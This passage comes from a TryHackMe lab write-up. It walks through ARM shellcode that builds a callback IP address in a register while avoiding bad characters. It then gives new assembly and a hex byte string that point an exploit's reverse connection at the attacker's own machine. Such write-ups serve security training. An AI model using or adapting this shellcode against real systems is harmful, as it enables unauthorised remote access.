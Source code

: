 So what's going on with the assembly instructions storing the IP address value of `192.168.100.1`?:
-  Move 0x164 to register R1 (i.e. $356$ in decimal)
-  Shift the register left by eight bits (i.e. perform $356 * 256 = 91136$)
-  Add 0xA8 to R1 (i.e. perform $91136 + 168 = 91304$)
-  Shift the register left by eight bits (i.e. perform $91304 * 256 = 23373824$)
-  Add 0xC0 to R1 (i.e. perform $23373824 + 192 = 23374016$)

So now we have value of **`23374016`** (decimal) stored in register R1.  If we convert this to a 32-bit binary and divide it into octets (i.e. groups of 8 bits each) we get: **`00000001.01100100.10101000.11000000`**, and if we convert this back to decimal we will get: **`1.100.168.192`** - which is the little-endian representation of the IP address we were looking to store.

If you've managed to follow my reasoning this far, it should be clear that we are taking the little-endian representation of the IP address, converting it to decimal and then storing appropriate hex values to register R1 and shifting by 8 bits to the left for each octet to represent this.  In our case this is complicated a bit further by the fact that we have to avoid the hex values defined in the `BADCHARS` variable which include the hex equiavelent value for `10` and - of course- TryHackMe Attackboxes always have an IP address starting with `10.10`!

Now that we've understood how this works, we can craft our own hex byte string that points back to our local machine IP address - in our case this will be `10.10.52.240`.

```
/* ADDR */
mov r1, #0xf0   // store '240' in R1
lsl r1, #8      // shift by 8 bits to the left
add r1, #0x34   // add '52' to R1
lsl r1, #8      // shift by 8 bits to the left
add r1, #0x08   // add '8' and '2' to R1 (since we cannot pass the hex value for 10; '0x0a')
add r1, #0x02
lsl r1, #8      // shift by 8 bits to the left
add r1, #0x08   // add '8' and '2' to R1 (since we cannot pass the hex value for 10; '0x0a')
add r1, #0x02
push {r1}       
```
Now we can simply copy this set of instructions to the assembler and convert it to a hex string that we can paste into the Python Script:
_(Make sure to select `ARM` for the processor type and to copy the Little Endian output)_
![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/e90c2569-f13d-42d5-8eb3-3b0ecacc003c)

You can follow [THIS LINK](https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=mov+r1%2C+%230xf0++%0D%0Alsl+r1%2C+%238++++%0D%0Aadd+r1%2C+%230x34+++%0D%0Alsl+r1%2C+%238++++++%0D%0Aadd+r1%2C+%230x08+++%0D%0Aadd+r1%2C+%230x02%0D%0Alsl+r1%2C+%238++++++%0D%0Aadd+r1%2C+%230x08+++%0D%0Aadd+r1%2C+%230x02++++%0D%0Apush+%7Br1%7D++&arch=arm&as_format=inline#assembly) and simply change the `#0xf0` and `#0x34` values to correspond to your IP address - but remember to avoid using any *bad characters*!

So we can now update the python script with the new byte string we generated:
```
"\xf0\x10\xa0\xe3\x01\x14\xa0\xe1\x34\x10\x81\xe2\x01\x14\xa0\xe1\x08\x10\x81\xe2\x02\x10\x81\xe2\x01\x14\xa0\xe1\x08\x10\x81\xe2\x02\x10\x81\xe2\x04\x10\x2d\xe5"
```

[You may have a look at the update python code here](code/Snowy_ARMageddon/modified_exploit.py).
